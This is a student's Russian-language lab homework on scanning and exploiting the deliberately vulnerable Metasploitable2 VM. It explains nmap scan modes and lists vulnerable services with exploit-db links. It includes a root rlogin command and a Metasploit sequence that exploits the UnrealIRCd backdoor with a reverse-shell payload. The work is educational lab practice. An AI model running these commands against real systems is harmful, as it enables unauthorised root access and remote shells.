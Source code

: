 ## Уязвимости и атаки на информационные системы
## Домашнее задание. Горбунов Владимир


### Задание 1

```
Скачайте и установите виртуальную машину Metasploitable: https://sourceforge.net/projects/metasploitable/.  
Это типовая ОС для экспериментов в области информационной безопасности, с которой следует начать при анализе уязвимостей.  
Просканируйте эту виртуальную машину, используя **nmap**.  
Попробуйте найти уязвимости, которым подвержена эта виртуальная машина.  
Сами уязвимости можно поискать на сайте https://www.exploit-db.com/.  
Для этого нужно в поиске ввести название сетевой службы, обнаруженной на атакуемой машине, и выбрать подходящие по версии уязвимости.   
Ответьте на следующие вопросы:  
- Какие сетевые службы в ней разрешены?
- Какие уязвимости были вами обнаружены? (список со ссылками: достаточно трёх уязвимостей)
*Приведите ответ в свободной форме.*  
```
- Сетап для тестирования: Kali linux одним интерфейсом подключена к локальной сети (бридж), вторым к PentestNet сети (172.30.1.0/24). Metasploitable2 подключена к сети PentestNet. 
![](./img/task1-1.jpg)
- Для начала сканируем сеть ARP сканером `netdiscover -i eth1 -r 172.30.1.0/24`
![](./img/task1-2.jpg)
- Узнали адрес metaspoitable2. Сканируем с помощью nmap открытые порты. `nmap -A -T4 -p- 172.30.1.20`
  - -A - расширенное сканирование с подробной информации о сервисе на открытом порту
  - -T4 - скорость сканирования (1-5)
  - -p- - сканируем все возможные 65,535 портов
  - в результате - общая информация об атакуемой системе и открытые порты с сервисами, которые на них висят
Полный отчет nmap: [nmap_metasploitable2.log](./nmap_metasploitable2.log)
- Практически любой из открытых сервисов в этой сборке даёт возможность так или иначе получить доступ к системе или вывести её из строя. Даже обычный r-service на 513 порту неправильно настроен и даёт возможность подключиться к Metasploitable2 под рутом `rlogin -l root 172.30.1.20` 
- Другие примеры уязвимостей атакуемой системы 
  - FTP vsFTPd 2.3.4 https://www.exploit-db.com/exploits/49757 
  Версия программы vsFTP, выложенная в репозиторий сторонним пользователем и дающая возможность получить доступ к shell под рутом указав имя ":)"
  Рабочий скрипт на питоне и подробнее тут - https://github.com/Hellsender01/vsftpd_2.3.4_Exploit 
  - Apache httpd 2.2.8 https://attackerkb.com/topics/cM3Ia1zzpA/cve-2008-2364 
  возможность провести DoS атаку с загрузкой памяти
  - UnrealIRCd 3.2.8.1 https://www.exploit-db.com/exploits/16922 
  IRC сервер с уязвимостью. В фреймворке msfconsole - 
  > use exploit/unix/irc/unreal_ircd_3281_backdoor  
  > set RHOST 172.30.1.20  
  > set LHOST 172.30.1.21  
  > set payload cmd/unix/reverse  
  > exploit  

### Задание 2

```
Проведите сканирование Metasploitable в режимах SYN, FIN, Xmas, UDP.  
Запишите сеансы сканирования в Wireshark.  
Ответьте на следующие вопросы:  
- Чем отличаются эти режимы сканирования с точки зрения сетевого трафика?  
- Как отвечает сервер?  
*Приведите ответ в свободной форме.*  
```
TCP соединение устанавливается с помощью трехстороннего рукопожатия.  
Инициатор соединения отправляет SYN пакет  
В ответ получает SYN+ACK пакет  
И отправляет ACK пакет  
Соединение считается установленным и начинается передача данных


- Режим SYN `nmap -sS 172.30.1.20`
![](./img/task2-1.jpg)  

В режиме SYN nmap отправляет SYN пакет.   
В случае, если от хоста приходит ответ SYN+ACK, то есть хост готов установить соединение - порт считается открытым, а nmap сбрасывает соединение отправляя пакет RST.   
В случае, если от хоста приходит RST - порт закрыт. 
Если ответа нет - filtered.

- Режим FIN `nmap -sF 172.30.1.20`
![](./img/task2-2.jpg)  

В режиме FIN используется особенность стандарта TCP. Если пакет не содержит флагов SYN ACK RST, то закрытый порт вернет ответ RST.  Если порт открыт, то ответа от исследуемого хоста не приходит.

- Режим Xmas `nmap -sX 172.30.1.20`
![](./img/task2-3.jpg)  

Аналогично режиму FIN отправляется пакет на завершение соединения. Дополнительно к FIN отправляется флаг PSH (не копить буфер, отправить сразу в приложение) и URG (флаг сигнализирующий о приорите пакета). 

- Режим UDP `nmap -sU 172.30.1.20`
![](./img/task2-4.jpg)  

В протоколе UDP нет рукопожатия, пакеты идут потоком, не дожидаясь подтверждения получения.  
При UDP сканировании на какие-то общеизвестные порты (53 DNS, 161 SNMP) отправляются пакеты с полезной нагрузкой, чтобы увеличить вероятность отклика, но на большинство просто пустые пакеты. Если от хоста нет ответа, то считается, что порт открыт или ответный пакет потерян (opened | filtered). В случае недоступности порта исследуемый хост отправляет ICMP пакет - host unreachable. Однако часто по умолчанию количество отправляемых пакетов ICMP в секунду ограничено, nmap это определяет и замедляется, чтобы не засорять сеть UDP трафиком. Как написано в man-pages в случае, если на исследуемом хосте установлен лимит в 1 ICMP/сек, сканирование всех портов UDP может занять 18 часов. 


В целом с точки зрения сетевого трафика наименее заметным является режим FIN.
Однако самым надежным - SYN.
Также стоит отметить, что  режим SYN используется по умолчанию, когда nmap работает от рута и есть возможность отправлять raw packets. 
В случае запуска без повышенных привелегий nmap использует системные вызовы. И трехстороннее рукопожатие устанавливается полностью.
